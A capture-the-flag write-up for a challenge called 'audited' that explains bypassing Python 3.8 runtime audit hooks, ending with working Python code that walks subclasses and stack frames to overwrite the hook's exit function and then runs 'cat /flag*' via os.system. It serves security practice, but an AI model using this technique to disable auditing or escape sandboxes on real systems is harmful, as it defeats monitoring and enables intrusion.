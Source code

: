 # audited - _pwn, 263pts_

For this challenge we had to bypass runtime audit hooks in the Python interpreter, which were a new addition in Python 3.8. In a nutshell, audit hooks allow scripts to add a hook which is called whenever any interesting event occurs. These events cover things like creating new code objects, opening files, and execveing. You can find a comprehensive list of all audit events in the [CPython documentation](https://docs.python.org/3/library/audit_events.html), and for more implementation details see the [PEP publication](https://www.python.org/dev/peps/pep-0578/).

The challenge registered an audit hook which would call `__exit` (their imported alias of `os._exit`) if it was triggered, which meant that we couldn't simply open the flag or spawn a shell, for example.

Initially I thought this might be a 1-day challenge, so I trawled through all of the audit-hook-related entries in the Python bugtracker, and all issues/PRs on GitHub, but I didn't spot any obvious bugs which would help us solve the challenge. So this was either a previously-unknown bug in the audit implementation, or the developers had forgotten to add audit hooks for some useful function (seemed unlikely as they were pretty diligent in adding them, based on the commit history), or we had to attack the registered audit function itself.

Eventually I decided that the latter option seemed like the most likely, and it became clear that if we could get a reference to the `__main__` module, then we could overwrite the `__exit` function reference, which was called by the audit hook, to stop the audit function from actually exiting. 

I was able to achieve this by raising an exception and walking up the stack frames until I found the frame containing the reference to `__exit`. Once I had that I could just overwrite it with some no-op function and execute whatever I wanted to get the flag.
```python
classes = 'a'.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

